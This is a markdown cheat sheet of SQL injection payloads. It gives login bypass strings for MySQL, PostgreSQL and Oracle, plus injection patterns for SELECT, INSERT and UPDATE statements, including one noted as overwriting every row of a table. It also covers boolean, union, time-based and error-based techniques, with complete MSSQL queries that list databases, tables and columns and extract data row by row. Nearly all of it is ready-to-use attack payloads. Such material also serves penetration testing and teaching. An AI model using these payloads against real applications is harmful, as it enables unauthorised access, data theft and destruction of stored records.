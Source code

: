 # SQL injection

## Login bypass

### MySQL

```
' or 1=1;#
' or 1=1 LIMIT 1;#
```

### PostgreSQL

```
' or 1=1;--
' or 1=1;/*
' or 1=1 LIMIT 1;--
```

### Oracle

```
' or 1=1--
' or 1=1 LIMIT 1--
```

## Injection types

### SELECT

```
SELECT * FROM accounts WHERE user = 'xxx' AND pass = 'yyy'

xxx' OR 1=1;--            #hides the condition on pass field behind a comment
xxx' OR 1=1 LIMIT 1;--    #hides the extra quote with a comment and limits the results to 1 match (can avoid simple SQLi detections)
```

### INSERT

```
INSERT INTO accounts (user, pass, info) VALUES ('xxx', 'yyy', 'zzz');

xxx');<commands>;--    #close the open sets of quotes and brackets, hide the duplicates behind inline comment
```

### UPDATE

```
UPDATE accounts SET info='xxx' WHERE user = 'yyy';

xxx';<commands>;--    #DANGEROUS! Hides the WHERE clause, all info fields in table will be set to "xxx"
yyy';<commands>;--    #update statement completes normally, then the injected commands will be executed
```

## Techniques

### Boolean based

Execute a query containing a valid parameter (such as an item ID) and concatenate to the instruction a comparison statement that will always be true or false.

```
<param>' and 1=1;    #returns the item matching <param>
<param>' and 1=0;    #returns nothing
<param>' or 1=1      #returns everything
```

If the first statement returns the expected value and the second statement returns nothing then the field or parameter are vulnerable

#### Payload variants

```
' and 'a'='a    #strings instead of numbers, note the missing quote at the end
' and "a"="a    #double quotes instead of single, note the missing quote at the end
') and 1=1;     #closed round bracket to exclude other conditions
') and 'a'='a'; #version with string comparison
```

### Union based

1. Find the number of columns: `' or 1=1 order by <col number>; --` increase the number of columns until you get an error. Pay also attention to how the output is ordered, this allows you to match a column number to its output field.
2. Join data: `' or 1=1 union all select <fields> from <table>; --` since the UNION operation requires that both tables have the same column number, add NULL values for the missing columns in the select if the operation fails.

### Time based

Execute a query that results in a boolean statement (true/false). Use a time delay command to stop execution if the result is True. Useful to display boolean values since error based data disclosure doesn't work with them.

```
');if (IS_MEMBER ('db_owner') = 0) WAITFOR DELAY '0:0:5';--
```

This technique can also be used to verity the existence of an SQL injection vulnerability in the same way as the Boolean attack. If the application freezes for the given amount of time after executing the query then the field or parameter are vulnerable

```
<value>'; WAITFOR DELAY '0:0:5'; --
```

### Error based

If the field you're injecting is not used to display data it is possible to make the database print data by causing a cast error i.e. casting strings to integers. This allows you to read one value in a table at time, to print more values filter by row number.

```
'); select CAST(@@version as int);--
```

#### Print database list

```
');SELECT CAST (name AS integer) FROM (SELECT ROW_NUMBER() OVER (ORDER BY name ASC) AS rownumber,name FROM master..sysdatabases) AS foo WHERE rownumber = <row>;--
```

#### Print tables in database

```
');SELECT CAST (name AS integer) FROM (SELECT ROW_NUMBER() OVER (ORDER BY name ASC) AS rownumber,name FROM <db>..sysobjects WHERE xtype = 'U') AS foo WHERE rownumber = <row>;--
```

#### Enumerate columns

```
');SELECT CAST (foo.name AS integer) FROM (SELECT ROW_NUMBER() OVER (ORDER BY archive..syscolumns.name ASC) AS rownumber,<db>..syscolumns.name AS name FROM <db>..syscolumns, <db>..sysobjects WHERE <db>..syscolumns.id=<db>..sysobjects.id AND <db>..sysobjects.name='<table>') AS foo WHERE rownumber = <row>;--
```

#### Select data from column in nth row

Insert the columns you need to read in the inner select, in this way it wil be possible to select by row number and read the content of the column one row at time.

```
');SELECT CAST (foo.col1 AS integer) FROM (SELECT ROW_NUMBER() OVER (ORDER BY id ASC) AS rownumber,<db>..<table>.<column> AS col1 FROM <db>..<table>) AS foo WHERE rownumber = <nth>;--
```
